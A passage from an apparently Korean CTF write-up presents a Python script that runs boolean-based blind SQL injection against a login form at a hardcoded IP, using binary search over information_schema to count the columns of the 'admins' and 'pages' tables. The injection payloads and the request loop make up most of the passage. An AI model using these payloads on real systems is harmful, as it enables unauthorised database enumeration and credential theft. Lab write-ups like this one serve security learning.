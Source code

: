    level2 DB에 admins와 pages라는 2개의 table 이 존재하는 것을 알 수 있었다. 이제 각각의 table에 몇개의 column 을 가지고 있는지 킹갓 python code로
   binary search 알고리즘으로 코드를 작성해보았다.
   
   ```python
    # File name: Get_column_count.py
    # This script gets columns name in table
    #

    import requests
    import string
    from random import *


    def sendPayload(payload):
      data = {'username' : payload, 'password' : '1'}
      res = requests.post(url, data = data)
      print(payload)

      return res.text

    char = string.ascii_lowercase + string.digits + string.punctuation
    url = 'http://35.190.155.168/87ece3af89/login'

    db_list = 'level2'
    table_list = ['admins', 'pages']
    count = range(0,100)
    compareLetter = ['<', '>']
    columnCount = 0

    #############################
    # Get column count in table #
    #############################
    for tableName in table_list:
        tmp = count

        # Get columns count
        while True:
            compare = compareLetter[randint(0, 1)]

            payload = "' or (SELECT COUNT(DISTINCT(column_name)) FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}') {} {}#".format(db_list, tableName, compare, tmp[int(len(tmp)/2)])

            if sendPayload(payload).find("Invalid password") != -1:
                if compare == "<":
                    tmp = tmp[:int(len(tmp)/2)+1]
                else:
                    tmp = tmp[int(len(tmp)/2):]

            else:
                if compare == "<":
                    tmp = tmp[int(len(tmp)/2):]
                else:
                    tmp = tmp[:int(len(tmp)/2)+1]

            if len(tmp) <= 2:
                payload = "' or (SELECT COUNT(DISTINCT(column_name)) FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}') = {}#".format(db_list, tableName, tmp[0])

                if sendPayload(payload).find("Invalid password") != -1:
                    columnCount = tmp[0]
                else:
                    columnCount = tmp[1]
   ```
